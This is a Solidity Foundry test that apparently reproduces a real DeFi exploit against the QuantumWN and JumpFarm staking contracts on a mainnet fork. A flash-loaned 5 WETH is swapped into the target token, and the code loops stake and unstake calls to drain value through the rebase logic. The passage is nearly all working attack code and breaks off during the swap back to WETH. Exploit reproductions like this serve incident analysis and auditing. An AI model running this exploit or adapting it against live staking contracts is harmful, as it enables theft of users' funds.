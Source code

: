 ```solidity
function testQuantumWN() external {
    uint256 attackBlockNumber = 18070346;
    vm.rollFork(attackBlockNumber); 

    fumog.approve(address(QWAStaking), type(uint256).max);
    sFumog.approve(address(QWAStaking), type(uint256).max);

    address[] memory token = new address[](1);
    token[0] = address(weth);
    uint256[] memory amount = new uint256[](1);
    amount[0] = 5 * 1 ether;
    balancer.flashLoan(address(this), token, amount, "QuantumWN");

    // weth.withdraw(weth.balanceOf(address(this)));
    emit log_named_decimal_uint("eth balance after exploit", weth.balanceOf(address(this)), 18);
}

function receiveFlashLoan(address[] memory /*tokens*/, uint256[] memory amounts, uint256[] memory feeAmounts, bytes memory userData) external {
    IERC20 targetToken;
    IERC20 targetsToken;
    StakingPool stakingPool;
    uint256 number;
    if (keccak256(userData) == keccak256("JumpFarm")) {
        targetToken = jump;
        targetsToken = sJump; 
        stakingPool = jumpStaking;
        number = 0x28;
    } else if (keccak256(userData) == keccak256("QuantumWN")) {
        targetToken = fumog;
        targetsToken = sFumog;
        stakingPool = QWAStaking;
        number = 0x1e;
    }
    weth.approve(address(router), type(uint256).max);
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(targetToken);
    router.swapExactTokensForTokens(amounts[0], 0, path, address(this), block.timestamp);
    uint8 i = 0;
    while(i < number) {
        i += 1;
        uint256 amountToken = targetToken.balanceOf(address(this));
        stakingPool.stake(address(this), amountToken);
        uint256 amountsToken = targetsToken.balanceOf(address(this));
        stakingPool.unstake(address(this), amountsToken, true);
    }
    // uint256 amountToken = targetToken.balanceOf(address(this));
    // stakingPool.stake(address(this), amountToken);
    // while(i < number) {
    //     i += 1;
    //     stakingPool.rebase();
    // }
    // uint256 amountsToken = targetsToken.balanceOf(address(this));
    // stakingPool.unstake(address(this), amountsToken, true);

    targetToken.approve(address(router), type(uint256).max);
    uint amount = targetToken.balanceOf(address(this));
    emit log_named_decimal_uint("target token balance after exploit", amount, targetToken.decimals());
    
    path[0] = address(targetToken);
    path[1] = address(weth);
```